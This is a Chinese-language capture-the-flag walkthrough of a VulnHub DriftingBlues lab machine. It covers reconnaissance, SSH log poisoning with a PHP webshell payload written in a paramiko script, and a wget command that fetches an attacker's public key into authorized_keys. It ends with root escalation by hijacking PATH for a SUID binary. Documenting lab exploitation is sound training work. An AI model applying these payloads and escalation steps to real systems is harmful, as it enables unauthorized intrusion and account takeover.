# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap -sn --max-rate=10000 192.168.64.0/24
```

靶机的IP地址是：`192.168.64.28`

## 1.2 端口扫描
**使用TCP SYN半开放式扫描**
```shell
nmap -sS -sV --max-rate=10000 -p- 192.168.64.28 -oA nmap-scan/syn
```


**使用TCP connect()全连接扫描**
```shell
nmap -sT -sV --max-rate=10000 -p- 192.168.64.28 -oA nmap-scan/tcp
```


**使用UDP扫描**
```shell
nmap -sU -sV --max-rate=10000 --top-ports=100 192.168.64.28 -oA nmap-scan/udp
```


**使用nmap内置默认脚本扫描**
```shell
nmap -sV -sC -O -p 22,80,2 --max-rate=10000 192.168.64.28 -oA nmap-scan/vuln
```


## 1.3 80端口信息收集
### 1.3.1 访问`http://192.168.64.28:80`


### 1.3.2 扫描网站目录及文件
```shell
gobuster dir --url http://192.168.64.28:80 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,git,bak -db -o web/gobuster_out.txt
```


### 1.3.3 访问`http://192.168.64.28:80:80/wp-admin`


### 1.3.4 访问`http://192.168.64.28:80/Makefile`
```
pranked!!!
```
这是一个文件。

### 1.3.5 访问`http://192.168.64.28:80/secret`
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
继续扫描下面的目录
```shell
gobuster dir --url http://192.168.64.28:80/secret --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,git,bak -db
```


**访问`http://192.168.64.28:80/secret/devices`**

这个devices是一个文件，不知道为啥这么命名。

### 1.3.6 访问`http://192.168.64.28:80/privacy`
```
ABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABABAB
```
继续扫描下面的目录
```shell
gobuster dir --url http://192.168.64.28:80/privacy --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,git,bak,html -db
```


### 1.3.7 访问`http://192.168.64.28:80/phpmyadmin`
```
ABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABCABC
```
继续扫描下面的目录
```shell
gobuster dir --url http://192.168.64.28:80/phpmyadmin --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,git,bak,html -db
```


### 1.3.8 访问`http://192.168.64.28:80/drupal`
```
ABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCD
```
继续扫描下面的目录
```shell
gobuster dir --url http://192.168.64.28:80/drupal --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,git,bak,html -db
```


### 1.3.9 访问`http://192.168.64.28:80/robots.txt`
```text
User-agent: *
Disallow: /eventadmins
```

**访问`http://192.168.64.28/eventadmins/`**

继续扫描下面的目录
```shell
gobuster dir --url http://192.168.64.28:80/eventadmins --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,git,bak,html -db
```


上面的信息表明，可能是ssh有突破口，扫描ssh
```shell
nmap -sV -p 22 --script ssh-auth-methods.nse,ssh-hostkey.nse 192.168.64.28
```

可以支持公钥登陆。

**访问`http://192.168.64.28:80/littlequeenofspades.html`**

查看源码，可以得到一下信息
```text
aW50cnVkZXI/IEwyRmtiV2x1YzJacGVHbDBMbkJvY0E9PQ==
```
经过多次base64解码之后，可以得到，
```text
intruder? /adminsfixit.php
```

**访问`http://192.168.64.28:80/adminsfixit.php`**

这似乎是日志一类的内容，有*cron*字眼，应该是有定时任务，而且还是以root用户执行的。

通过Burp Suite抓包，可以得知这是GET请求，那有没有可能有参数传递呢？尝试一下:
*尝试可能是命令*
```shell
ffuf -u http://192.168.64.28:80/adminsfixit.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```
没有找到。🌚

*尝试可能是文件*
```shell
ffuf -u http://192.168.64.28:80/adminsfixit.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```
没有找到。🌚

---

# 2.找到系统立足点
仔细研究一下上面的`http://192.168.64.28:80/adminsfixit.php`页面源码，感觉又不对劲的地方，

显示的内容怎么会在<html></html>之后呢？！
可能是使用了php里面的include()函数，而且日志上会把这些用户名记录在上面，那么我们就可以构造恶意的用户名去登陆，将内容留在日志上面，让php去执行，使用下面的代码：
```python
import paramiko

# 设置目标信息
target_ip = "192.168.64.28"
payload = '<?php system($_GET["cmd"]); ?>'

# 创建 SSH 客户端
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

print("[*] 正在发送恶意 payload 到 SSH 日志...")

try:
    # 尝试连接（密码随便填，一定会失败，但 payload 会被记录）
    ssh.connect(target_ip, username=payload, password="123")
except Exception as e:
    # 忽略连接失败的报错，因为我们的目的只是投毒
    print("[+] 投毒完成，请去网页测试 LFI。")
```


1. `?cmd=whoami`
    得知当前用户是www-data.

2. `?cmd=ls /home`
    由于上面不停的在提示ssh问题，直接去看看有哪些用户，然后进一步看看能不能利用ssh免密登陆。显示用户robertj.

3. `?cmd=ls -al /home/robertj`
    ```
    drwxr-xr-x 3 robertj robertj 4096 Jan  4  2021 .
    drwxr-xr-x 3 root    root    4096 Jan  4  2021 ..
    drwx---rwx 2 robertj robertj 4096 Apr 17 01:42 .ssh
    -r-x------ 1 robertj robertj 1805 Jan  3  2021 user.txt
    ```
    我们对.ssh目录有`rwx`权限.

4. 本地产生密钥，开启临时http服务
    首先需要在本地使用ssh-keygen生成密钥，然后copy密钥得到一个文件夹，然后在文件里面开启临时本地http服务，
    ```shell
    python3 -m http.server 80
    ```

5. `?cmd=wget%20http://192.168.64.2/id_ed25519.pub%20-O%20/home/robertj/.ssh/authorized_keys%20%26%26%20echo%20%27success%27`
    看到：*success*

6. `ssh -p 22 robertj@192.168.64.28`


---

# 3.系统提权

## 3.1 `sudo -l`
    无法利用

## 3.2 `find / -perm -4000 -type f 2>/dev/null`

里面有一个`/usr/bin/getinfo`没怎么见过，去GTFOBins网站上面查，没有找到，查看一下代码，
```shell
cat /usr/bin/getinfo
```

注意到里面有一个ip的命令，没有使用绝对地址，考虑路径劫持。

1. 在合适的目录创建ip可执行文件
在`/home/robertj`
```shell
cd /home/robertj  # 一般来说都是在/tmp目录下面来创建的,我喜欢在家目录下创建
touch ip
ehco '#!/bin/bash' > ip
echo '/bin/bash -p' >> ip
chmod 777 ip
```

2. 添加环境变量路径
```shell
PATH=/home/robertj:$PATH
```
让系统优先去我们的目录下面去寻找*ip*可执行文件。

3. 执行suid文件 (/usr/bin/getinfo)，提权
```shell
/usr/bin/getinfo
```


原来定时执行的脚本文件在这里，而且是写死的🌚  好像是歪打正着。

---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro `32G 512G`
- `macOS 14.8.5`
- `UTM虚拟机平台`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机driftingblues-2: 
- `https://www.vulnhub.com/entry/driftingblues-3,656/`

---

> 水平有限，有不足、错误之处欢迎指出。🧐